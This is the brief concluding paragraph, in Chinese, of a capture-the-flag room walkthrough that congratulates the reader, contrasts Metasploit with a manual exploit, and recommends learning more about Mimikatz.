****

> **恭喜你完成了房间！💥**

****蓝图**是一个很好的机会来利用通常容易的元漏洞利用，并使用一个较少使用的**手动利用**来完成。Mimikatz 是一个非常强大的工具，可以在许多方面加以利用，我鼓励你自己去了解它。我希望这篇漫游指南对你有所帮助，下次再见！**